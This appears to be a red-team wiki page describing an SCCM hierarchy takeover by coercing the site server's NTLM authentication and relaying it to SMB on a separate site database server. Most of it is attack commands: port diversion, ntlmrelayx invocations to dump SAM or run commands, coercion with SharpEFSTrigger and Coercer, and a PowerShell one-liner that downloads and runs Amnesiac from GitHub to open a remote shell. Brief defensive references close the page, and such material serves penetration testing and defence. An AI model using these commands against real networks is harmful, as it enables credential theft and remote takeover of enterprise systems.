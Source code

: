 # TAKEOVER-2

## Document Reference

* [TAKEOVER-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-2/takeover-2\_description.md)

## Description

Hierarchy takeover via NTLM coercion and relay to SMB on remote site database

## Requirements

* PKI certificates are not required for client authentication (default)
* SCCM database server hosted on a system that is independent of the main site server
* SMB is reachable and SMB signing isn’t required on the site database server
* Local Administrator if performing the attack from Windows (due to SMB port redirect)

## Tools Required

* divertTCPConn: [https://github.com/Arno0x/DivertTCPconn](https://github.com/Arno0x/DivertTCPconn)
* Coercion Tools: [https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/Coercion](https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/Coercion)
* ntlmrelayx: [https://github.com/The-Viper-One/RedTeam-Pentest-Tools/blob/main/Relay/ntlmrelayx.exe](https://github.com/The-Viper-One/RedTeam-Pentest-Tools/blob/main/Relay/ntlmrelayx.exe)

## Windows

Divert SMB on port 445 to port 8445 (Requires Local Administrator)

```
divertTCPconn.exe 445 8445
```

Set up ntlmrelayx to the alternate SMB port and to point at the MSSQL database server

```
# Dump SAM
ntlmrelayx.exe --smb-port 8445 -smb2support -t <MSSQL SSCM IP>

# Execute Commands
ntlmrelayx.exe --smb-port 8445 -smb2support -t 192.168.60.12 -c "[Command]"
```

Perform the coercerian with SharpEFSTrigger to relay the SCCM Site Server computer account to the MSSQL database server.

{% code overflow="wrap" %}
```powershell
# Option 2: SharpEFSTrigger
SharpEFSTrigger.exe <Site Server IP> <Listener IP> EfsRpcDecryptFileSrv

# Option 1: Coercer
Coercer.exe coerce -u [Username] -p "[Password]" -d [Domain] -t [Site Server IP] -l [Listener IP] --auth-type smb --filter-method-name EfsRpcDecryptFileSrv
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2146).png" alt=""><figcaption></figcaption></figure>

### Getting a full shell on Windows with Amnesiac

* Amnesiac: [https://github.com/Leo4j/Amnesiac](https://github.com/Leo4j/Amnesiac)

Load Amnesiac through PowerShell

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Amnesiac/main/Amnesiac.ps1');Amnesiac
</strong></code></pre>

Generate a global listener payload with option \[2]

<figure><img src="../../../.gitbook/assets/image (2153).png" alt=""><figcaption></figcaption></figure>

Use the payload within ntlmrelayx to be executed on the target system.

```powershell
# Setup with ntlmrelayx
ntlmrelayx.exe -t 192.168.60.12 -smb2support --smb-port 8445 -c "[PAYLOAD]"
```

Once we trigger coercion again, ntlmrelayx will execute the powershell payload on the target system. Once this is done, use option \[3] on Amnesiac to connect.

<figure><img src="../../../.gitbook/assets/image (2154).png" alt=""><figcaption></figcaption></figure>

### Defensive IDs

* [DETECT-1: Monitor site server domain computer accounts authenticating from another source](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/DETECT/DETECT-1/detect-1\_description.md)
* [PREVENT-12: Require SMB signing on site systems](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-12/prevent-12\_description.md)
* [PREVENT-20: Block unnecessary connections to site systems](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-20/prevent-20\_description.md)
